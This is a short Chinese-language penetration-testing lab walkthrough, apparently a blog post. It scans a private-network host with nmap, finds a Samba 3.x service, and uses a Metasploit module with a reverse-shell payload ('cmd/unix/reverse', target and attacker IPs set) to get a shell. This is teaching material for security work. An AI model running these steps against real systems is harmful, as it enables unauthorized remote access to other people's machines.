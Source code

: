 端口扫描
```
nmap -sV 192.168.1.18
```
![image-20240105150722996](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202401051507105.png)



可以发现主机运行这Samba3.x的服务，查找县相关漏洞利用模块
```
search samba
```
![image-20240105150738884](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202401051507986.png)



查看漏洞相关信息，输入对应的编号即可
```
info 8
```
![image-20240105150754541](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202401051507624.png)



利用相关模块，查看并配置参数
```
use 8	#利用模块
show options	#查看参数
set payload cmd/unix/reverse	#设置payload
set rhosts 192.168.1.18    #配置目标机IP
set rport 445	#配置目标机端口
set lhost 192.168.1.28	#配置攻击机IP
```
![image-20240105150807553](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202401051508643.png)



开始攻击
```
run
```

成功拿到shell

![image-20240105150821451](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202401051508530.png)